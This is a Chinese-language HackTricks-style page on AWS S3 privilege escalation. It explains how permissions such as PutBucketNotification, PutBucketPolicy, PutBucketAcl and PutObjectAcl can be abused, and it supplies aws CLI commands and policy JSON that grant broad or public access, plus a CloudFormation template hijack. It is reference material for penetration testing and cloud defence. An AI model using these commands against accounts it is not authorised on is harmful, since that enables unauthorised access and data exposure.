 # AWS - S3 Privesc

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

拥有这些权限的攻击者可能能够劫持资源并提升权限。

例如，拥有对名为 "cf-templates-nohnwfax6a6i-us-east-1" 的 **cloudformation bucket** 的这些 **权限** 的攻击者将能够劫持部署。可以通过以下策略授予访问权限：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
并且劫持是可能的，因为从**模板上传**到存储桶的那一刻到**模板部署**的那一刻之间有一个**小的时间窗口**。攻击者可能只需在他的账户中创建一个**lambda function**，当发送存储桶通知时将**触发**，并**劫持**该**存储桶**的**内容**。

![](<../../../.gitbook/assets/image (174).png>)

Pacu模块 [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) 可用于自动化此攻击。\
有关更多信息，请查看原始研究：[https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

这些是**获取和上传对象到 S3**的权限。AWS 内部（以及外部）的多个服务使用 S3 存储来存储**配置文件**。\
具有**读取访问权限**的攻击者可能会在其中找到**敏感信息**。\
具有**写入访问权限**的攻击者可以**修改数据以滥用某些服务并尝试提升权限**。\
以下是一些示例：

* 如果 EC2 实例将**用户数据存储在 S3 存储桶**中，攻击者可以修改它以**在 EC2 实例内部执行任意代码**。

### `s3:PutBucketPolicy`

攻击者需要**来自同一账户**，否则将触发错误`The specified method is not allowed`，具有此权限将能够授予自己对存储桶的更多权限，允许他读取、写入、修改、删除和暴露存储桶。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

攻击者可以利用这些权限来**授予自己更多的访问权限**，以便对特定的存储桶进行操作。\
请注意，攻击者不需要来自同一账户。此外，写入访问权限
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

攻击者可以利用这些权限来授予他对存储桶内特定对象的更多访问权限。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

拥有这些权限的攻击者预计能够将 Acl 放置到特定对象版本上
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
